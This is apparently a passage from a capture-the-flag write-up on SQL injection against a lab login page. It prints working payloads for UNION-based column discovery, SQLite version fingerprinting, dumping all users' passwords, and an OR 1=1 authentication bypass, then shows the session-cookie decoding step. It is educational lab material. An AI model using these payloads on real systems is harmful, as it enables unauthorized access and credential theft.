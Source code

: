 Note that using 1 or 1,2,3 will give us the error message Invalid username or password.

But the following payload allowed us to log in successfully:

```shell
' UNION SELECT 1,2--
```

On the top right corner it also says "Logged in as 2".

#### Identifying Version with UNION SELECT
Now that we know the right number of columns (2), we can try to identify the database type and version:

```shell
# MySQL and MSSQL
' UNION SELECT 1, @@version--
```

The payload above didnt work. But the next payload will work:

```shell
# For SQLite
' UNION SELECT 1, sqlite_version()--
```

We can see on the right top that we are Logged in as 3.22.0.

#### Getting the password of all users with UNION SELECT
We can use the following payload to get the password of all users:

```shell
' UNION SELECT 1,group_concat(password) FROM users--
```

This gave us as result the following:

```shell
rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{REDACTED},viking123 |
```

There is the flag!

#### Information about admin cookie

It is important to note, that we can use the following payload to get access as admin:

```shell
' OR 1=1--
```

Then press F12 on Firefox, go to Storage and get the Value of the session cookie:

```shell
.eJyrVkrOSMzJSc1LTzWKLy1OLYrPTFGyMtRBF85LzE1VslJKTMnNzFOqBQAYpRNS.ZzExDg.RvLJg_JI-593D6bhYKTcuu3SV4Q
```

Then visit the following website and enter the cookie value:
https://www.kirsle.net/wizards/flask-session.cgi

The decoded cookie will look like this:
